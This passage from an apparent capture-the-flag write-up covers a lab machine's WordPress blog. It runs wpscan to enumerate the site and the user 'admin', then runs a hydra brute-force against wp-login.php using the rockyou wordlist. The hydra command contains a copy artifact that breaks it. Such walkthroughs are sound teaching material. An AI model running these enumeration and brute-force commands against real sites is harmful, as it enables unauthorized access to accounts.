 There's a blog directory so let's see what it contains

<a href="/assets/img/thm/internal/wp.png" target="_blank"><img class="centerImgLarge" src="/assets/img/thm/internal/wp.png"></a>

Its a wordpress website. Oh yea! it's a classic hello world page. The first thing that came into mind is to run wpscan to see if there is any vulnerabilites of this wordpress site and enumerate the wordpress site. Its a great tool.

It comes preinstalled if you are using kali otherwise you can clone it from [github](https://github.com/wpscanteam/wpscan)

```bash
wpscan --url internal.thm/blog -e -v
```
`-e` means enumerate everything

`-v` is to verbose output and if you want to save the output you can use `-o` 

Use `-h` for help

<a href="/assets/img/thm/internal/wpusers.png" target="_blank"><img class="centerImgLarge" src="/assets/img/thm/internal/wpusers.png"></a>

Looking at the results the Wordpress version is `5.4.2`  and it found one user `admin`. We know the username. At this moment i only had a username so lets bruteforce with hydra.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt internal.thm -V -f http-form-post '/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fi[32/32$
.thm%2Fblog%2Fwp-admin%2F&testcookie=1:S=Location
```
<a href="/assets/img/thm/internal/hydralogin.png" target="_blank"><img class="centerImgLarge" src="/assets/img/thm/internal/hydralogin.png"></a>

